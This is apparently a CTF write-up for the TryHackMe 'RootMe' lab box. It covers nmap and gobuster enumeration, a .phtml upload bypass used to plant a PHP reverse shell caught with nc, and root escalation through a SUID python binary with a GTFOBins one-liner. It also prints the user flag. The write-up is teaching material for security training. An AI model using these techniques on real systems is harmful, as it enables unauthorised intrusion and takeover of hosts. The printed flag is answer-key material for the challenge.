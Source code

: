 # RootMe - TryHackMe Writeup

## Overview
RootMe is a beginner-friendly CTF on TryHackMe that teaches the fundamentals of:
- Service enumeration  
- Directory brute-forcing  
- File upload exploitation  
- Reverse shells  
- Privilege escalation via SUID binaries  

---

## Enumeration

### Nmap Scan
```bash
nmap -sC -sV 10.10.107.48
```
- `-sC` → Run default scripts  
- `-sV` → Detect service versions  

**Results:**
- Port 22 → SSH (OpenSSH 8.2p1 Ubuntu)  
- Port 80 → Apache/2.4.41  

So the box is running a website on port 80.  

---

### Directory Enumeration
```bash
gobuster dir -u http://10.10.107.48 -w /usr/share/wordlists/dirb/common.txt
```
- `-u` → Target URL  
- `-w` → Wordlist to use  

**Interesting findings:**
- `/panel/` → Login/upload page  
- `/uploads/` → Publicly accessible directory  

---

## Initial Foothold

### File Upload Vulnerability
The `/panel/` page allowed file uploads.  
Uploading `.php` was blocked, but `.phtml` was accepted.  

I generated a PHP reverse shell (PentestMonkey) and uploaded it as `shell.phtml`.  

Then I set up a listener:  
```bash
nc -lvnp 1234
```

Navigated to:  
```
http://10.10.107.48/uploads/shell.phtml
```

💥 Got a reverse shell as **www-data**.  

---

## User Flag

First, I searched for `user.txt`:  
```bash
find / -type f -name "user.txt" 2>/dev/null
```

Found at: `/var/www/user.txt`  

```bash
cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

---

## Privilege Escalation

### Finding SUID Binaries
```bash
find / -type f -perm -4000 2>/dev/null
```
- `-perm -4000` → Finds files with SUID bit set (execute as owner)  

Among standard binaries, one stood out:  
```
/usr/bin/python
```

---

### Exploitation
GTFOBins confirms we can exploit this:  
```bash
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

💥 Gained root shell.  

---

## Root Flag
```bash
cat /root/root.txt
```

---

## Lessons Learned
1. Always run **nmap** for service enumeration.  
2. Use **gobuster/dirb** to find hidden web directories.  
3. Test file upload forms for extensions like `.phtml`, `.phar`, `.php5`.  
4. Use **reverse shells** + upgrade them with `python -c 'pty.spawn("/bin/bash")'`.  
5. Enumerate SUID binaries — often the easiest route to privilege escalation.  

---

## Flags
- **User flag:** `THM{y0u_g0t_a_sh3ll}`  
- **Root flag:** *(hidden to avoid spoilers)* ✅  

---
